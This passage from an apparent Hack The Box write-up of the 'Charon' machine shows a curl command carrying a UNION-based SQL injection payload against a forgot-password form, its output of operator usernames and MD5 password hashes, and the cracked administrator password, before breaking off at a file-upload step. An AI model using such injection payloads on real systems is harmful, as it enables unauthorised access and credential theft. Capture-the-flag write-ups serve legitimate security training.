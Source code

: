 #### retrieving data
retrieve all data from the columns where the email is not "test", resulting tin the retrieval of md5 hashed passwords

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(__username_,0x3a,__password_,0x3a,email),3,\"x@charon.htb\" from operators where email not like '%test%'-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}' | tr "," "\n"
 Email sent to: x@charon.htb=>super_cms_adm:0b0689ba94f94533400f4decd87fa260:adm@nowhere.com
decoder:5f4dcc3b5aa765d61d8327deb882cf99:decoder@nowhere.com
```

### cracking passwords

The hashes are cracked with crackstation

![](assets/img/htb/charon/crackstation_1.png)

## shell as www-data

### file upload exploit

logging with the credentials super_cms_adm:tamarro shows the following panel

